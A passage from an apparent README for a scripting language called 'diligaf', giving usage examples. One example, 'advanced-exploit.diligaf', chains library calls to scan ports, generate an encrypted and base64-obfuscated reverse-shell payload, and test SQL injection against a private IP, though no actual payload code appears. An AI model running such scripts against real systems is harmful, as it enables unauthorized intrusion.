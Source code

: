 ### **4. Run Your Program**
```bash
diligaf hello.diligaf
```

## 🔍 **Advanced Usage**

### **Custom Library Development**
```diligaf
# my-custom-lib.diligaf
class MyCustomLib
    def __init__(self)
        self.name = "My Custom Library"
        self.version = "1.0.0"
    
    def custom_function(self, param)
        return f"Custom function called with: {param}"

# Export functionality
custom_lib = MyCustomLib()

def my_function(param)
    return custom_lib.custom_function(param)
```

### **Library Integration**
```diligaf
# advanced-exploit.diligaf
stackit core
stackit net
stackit crypto
stackit exploit

def advanced_exploit(target, port)
    # Network reconnaissance
    open_ports = scan_common_ports(target)
    print(f"Open ports on {target}: {open_ports}")
    
    # Generate encrypted payload
    key = generate_key("aes", 256)
    payload = generate_python_payload("reverse_shell", target, port)
    encrypted_payload = encrypt_aes(payload, key)
    
    # Obfuscate payload
    obfuscated = obfuscate_payload(encrypted_payload, "base64")
    
    # Test SQL injection
    sql_payload = generate_union_payload(3, "users", "1=1")
    result = test_sql_injection(f"http://{target}", "id", sql_payload)
    
    if result and result["vulnerable"]
        print("SQL injection vulnerability found!")
        return True
    else
        print("No SQL injection vulnerability found")
        return False

# Execute exploit
target = "192.168.1.100"
port = 80
success = advanced_exploit(target, port)
print(f"Exploit successful: {success}")
```